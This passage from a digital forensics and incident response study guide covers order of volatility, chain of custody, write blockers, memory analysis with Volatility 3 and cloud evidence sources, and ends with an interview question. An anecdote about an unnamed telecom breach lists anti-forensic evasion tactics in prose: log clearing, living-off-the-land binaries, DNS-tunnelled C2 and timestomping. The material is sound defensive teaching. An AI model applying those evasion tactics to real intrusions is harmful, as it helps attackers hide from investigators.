│ DISK TOOL     │ Autopsy / Sleuth Kit / FTK               │
│ NETWORK TOOL  │ Wireshark, Zeek, tcpdump                 │
├───────────────┼──────────────────────────────────────────┤
│ CHAIN OF      │ Who → When → What → How → Storage        │
│ CUSTODY       │ Hash verifies evidence integrity          │
├───────────────┼──────────────────────────────────────────┤
│ WRITE BLOCKER │ REQUIRED before any disk access          │
│               │ Linux: blockdev --setro /dev/sdb          │
├───────────────┼──────────────────────────────────────────┤
│ CLOUD IR      │ EBS snapshot → volume forensics          │
│               │ CloudTrail → Athena → timeline           │
│               │ VPC Flow Logs → exfiltration detection   │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Observe without modifying: the forensic principle applied to operational systems."
Digital forensics' core principle - examine state without changing state - is the same
as production observability best practices:
- Read replicas (not primary) for analytics queries: observe data without impacting production.
- Snapshotting (immutable point-in-time copies): capture state without modifying it.
- Event sourcing (append-only event log): historical state can always be reconstructed
  from the immutable event stream without modifying the stream.
- Audit logging (append-only SIEM): application logs sent to a remote, write-once store.
  The application cannot modify its own audit trail.
- Feature flags read from config service (not hardcoded): observe feature state
  without code deployment.
- Blue-green deployments: test new deployment (observe) without taking down production (modify).
The forensics principle has deeper implications for system design:
Systems designed with forensic auditability in mind are better systems:
- Immutable infrastructure (rebuild from IaC, never modify): clean recovery after compromise.
- Append-only audit logs (S3 Object Lock, Kafka immutable topics): attacker can't cover tracks.
- Centralized log aggregation (SIEM): local log deletion doesn't destroy audit trail.
- Structured logging with correlation IDs: timeline reconstruction is feasible.
Systems designed without forensic auditability are expensive after an incident:
- Mutable infrastructure: can't distinguish pre-attack from post-attack state.
- Logs on local disk only: attacker deletes logs, evidence gone.
- No correlation IDs: cannot trace attacker through multiple systems.
Build systems that are auditable by default. The investment is in design-time.
The payoff: incident investigation that takes hours instead of months.

---

### 💡 The Surprising Truth

In 2021, a major telecom company's incident response team discovered attackers had
been in their network for 3 years before detection. MTTD: 1,095 days.

How did they stay hidden so long? Complete forensic anti-forensics:
- Cleared Windows Event Logs every 24 hours via a scheduled task.
- Used only LOLBins (WMI, PowerShell, certutil) - no malicious files on disk.
- Encrypted all C2 traffic over DNS (encoded in DNS TXT record queries - bypassed DLP).
- Set timestamps on modified files to match surrounding legitimate files (timestomping).
- Rotated C2 infrastructure every 30 days (no persistent indicators).
- Operated only during business hours (blended in with normal activity patterns).

The only forensic evidence that survived: memory artifacts.
The attacker's tools only ran in memory (no disk persistence after initial foothold).
After 3 years of dwell: every disk artifact had been cleaned.
But: the attacker's tools left memory artifacts that correlated with unusual network traffic.
A threat hunter analyzing anomalous DNS traffic saw the pattern.
Memory dump: confirmed active attacker tools.

The lessons:
1. EDR + memory forensics are the last line of evidence.
   If you rely only on disk and log forensics: sophisticated attackers evade you.
2. Threat hunting (proactive) found this, not alert-based detection.
   Alerts: the attacker was careful enough to avoid. Hunting: found the pattern anyway.
3. MTTD of 1,095 days: by industry average, not unusual.
   IBM 2024: average 194 days. This was just exceptionally long.
4. Immutable remote logging (SIEM) is critical.
   Local log deletion can't help if logs are already in the SIEM.
   The DNS traffic patterns: survived in the network monitoring system.
   This was the one forensic trail the attacker couldn't delete.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **STATE** the Order of Volatility: RAM → network connections → running processes →
   disk → remote logs. Most volatile first. Memory is lost on reboot.
2. **EXPLAIN** why memory must be captured before isolation: network connections
   in memory disappear when network cable is unplugged. Running processes are cleared on reboot.
   Attacker C2 IP only visible in netstat/memory until network is disconnected.
3. **DESCRIBE** chain of custody: who collected, when, hash computed immediately,
   how stored, every transfer documented. Broken chain = evidence challenged in court.
4. **LIST** key Volatility 3 plugins: `linux.pslist` (processes), `linux.netstat`
   (connections), `windows.malfind` (injected code), `linux.bash` (bash history in memory).
5. **EXPLAIN** why disk imaging uses hashes: SHA-256 hash of original device must equal
   hash of forensic image. This proves bit-for-bit identity. Any modification changes the hash.

---

### 🎯 Interview Deep-Dive

**Q: What is the Order of Volatility in digital forensics? Why does it matter?
What is chain of custody and when does it apply?**

*Why they ask:* Tests security incident response depth and practical forensics knowledge.
Asked in security engineering, DFIR, and senior backend roles where on-call responsibilities
include security incident response.

*Strong answer covers:*
- Order of Volatility (most volatile first): CPU registers (too fast, skip), RAM (minutes-hours),
  network connections (minutes), running processes (hours), disk contents (stable),
  remote logs (stable). Capture RAM FIRST because it is lost on reboot.
- Why it matters: fileless malware only exists in memory. Attacker C2 IP is in netstat
  (memory) - gone after network disconnect. Encryption keys (ransomware) may be in RAM.
  Without memory capture: these are permanently lost.
- Memory tools: avml (Linux), WinPMEM (Windows), FTK Imager (Windows GUI).
  Analysis: Volatility 3 - pslist, netstat, malfind (injected code), cmdline.
- Chain of custody: documentation of every person who handled evidence + when + actions.
  Required for evidence to be legally admissible. Compute SHA-256 hash immediately
  after capture. Hash never changes = evidence unmodified. Broken chain = evidence challenged.
- Chain of custody applies: when legal proceedings are anticipated (criminal, civil, regulatory).
  Even without proceedings: good practice for incident timeline accuracy.
- Write blocker: prevents any writes to original disk during imaging.
  Linux: `blockdev --setro /dev/sdb` then `mount -o ro`. Always work on image copy, not original.
- Cloud forensics: EBS snapshot (preserves disk state), CloudTrail (API audit),
  VPC Flow Logs (network metadata), SIEM remote logs (can't be deleted by attacker on endpoint).